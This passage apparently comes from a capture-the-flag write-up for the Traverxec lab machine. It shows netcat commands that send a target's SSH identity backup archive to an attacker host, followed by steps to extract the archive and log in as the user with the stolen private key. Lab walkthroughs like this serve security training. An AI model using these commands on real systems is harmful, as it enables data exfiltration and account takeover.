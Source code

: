 ![user5](./traverxec/user5.png)

It seems like the user `david` has his own SSH public key added to `/home/david/.ssh/authorized_keys`. Copy `backup-ssh-identity-files.tgz` to Kali:

```bash
# run on kali
nc -nvlp 7777 > ssh.tgz
# run on target as www-data
nc -nv 10.10.14.25 7777 < /dev/shm/backup-ssh-identity-files.tgz
```

Now extract and prep the SSH directory to be used:

```bash
tar -xvf ssh.tgz
mv home/david/.ssh .
chmod 700 ./.ssh
chmod 644 ./.ssh/id_rsa.pub
chmod 600 ./.ssh/id_rsa
ssh -i ./.ssh/id_rsa david@10.10.10.165
```
